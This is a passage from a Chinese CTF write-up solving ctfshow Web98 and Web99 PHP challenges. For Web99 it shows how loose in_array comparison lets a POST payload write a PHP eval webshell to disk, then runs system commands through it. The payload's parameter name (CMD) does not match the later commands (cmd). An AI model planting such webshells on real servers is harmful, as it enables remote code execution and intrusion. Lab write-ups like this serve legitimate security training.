 >      ["REQUEST_TIME"]=>
>      int(1729864439)
>    }
>    ```
>
>    

### 方法二

看了下paylaod发现想复杂了，这里最后读取的是`highlight_file($_GET['HTTP_FLAG']=='flag'?$flag:__FILE__);`而前面判断的是$\_GET['flag']，而$\_GET来自于$\_POST所以只要传入post：HTTP_FLAG=flag即可



## Web99

题目

```php
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-16 11:25:09
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-18 22:36:12
# @link: https://ctfer.com

*/

highlight_file(__FILE__);
$allow = array();
for ($i=36; $i < 0x36d; $i++) { 
    array_push($allow, rand(1,$i));
}
if(isset($_GET['n']) && in_array($_GET['n'], $allow)){
    file_put_contents($_GET['n'], $_POST['content']);
}

?>
```

//in_array()函数有漏洞 没有设置第三个参数 就可以形成自动转换eg:n=1.php自动转换为1

file_put_contents($\_GET['n'], $\_POST['content']);用于向$\_GET['n']文件写入内容$\_POST['content']。

只要写入webshell就能执行命令找flag

payload`get：?n=1.php post：content=<?php eval($_GET['CMD']);?>`

这样就可以创建命为1.php的webshell

命令执行`/1.php?cmd=system("ls");` `/1.php?cmd=system("nl%20flag36d.php");`

